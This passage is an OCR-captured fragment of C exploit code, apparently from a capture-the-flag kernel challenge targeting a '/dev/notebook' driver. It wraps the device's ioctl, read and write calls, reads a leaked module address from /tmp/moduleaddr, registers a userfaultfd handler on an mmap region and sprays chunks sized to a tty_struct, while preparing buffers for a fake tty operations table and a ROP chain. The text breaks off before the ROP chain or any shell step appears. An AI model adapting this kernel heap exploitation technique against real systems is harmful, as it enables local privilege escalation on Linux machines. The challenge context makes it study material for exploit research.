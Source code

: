 ```c
    arg.data = data;

    int res = ioctl(fd , 0x64 , &arg );
}

void note_read(size_t index, char *data ){
    int res = read(fd , data , index);
}

void note_write(size_t index, char *data){
    int res = write(fd , data , index);
    if(!res){
        info("Edit chunk data" , 0);
    }else{
        error("Can not Edit chunk data");
    }
}

size_t get_mod_addr()
{
    FILE* fd =  fopen("/tmp/moduleaddr", "r");
    char buf[0x100];
    char buffer[0x100];
    size_t leak = 0;
    fgets(buf, 0x30, fd);

    sscanf(buf , "%s%s%s%s%s%lx" ,buffer,buffer,buffer,buffer,buffer, &leak);
    info("leak" ,leak);
}

void main(){
    
    int tty_fd[0x100] = {0};
    int tty_idx = -1 , fake_tty_op_idx , rop_idx;

    char buf[0x1000] = {0};
    char rop[0x1000] = {0};
    char tty_buf[0x1000] = {0};

    size_t *data = (size_t *)buf;
    size_t *tty_data = (size_t *)tty_buf;
    size_t *rop_data = (size_t *)rop;

    size_t heap_addr = 0 , tty_addr = 0 , fake_tty_op_addr = 0 ,rop_addr ;
    pthread_t tmp_t, add_t, edit_t;

    long int *nums = (long int *) malloc(8*0x10);
    for (int i = 0; i < 0x10; i++)
        nums[i] = i;

    save_status();
    // signal(SIGSEGV, shell);

    fd = open("/dev/notebook" , O_RDWR);

    mem = (char*)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    register_userfault((size_t) mem , 0x1000 );
    sleep(1);

    for (int i = 0;i<0x10;i++){
        add(i , 0x20 , buf);
        edit(i , TTY_STRUCT_SIZE , buf);
    }
```
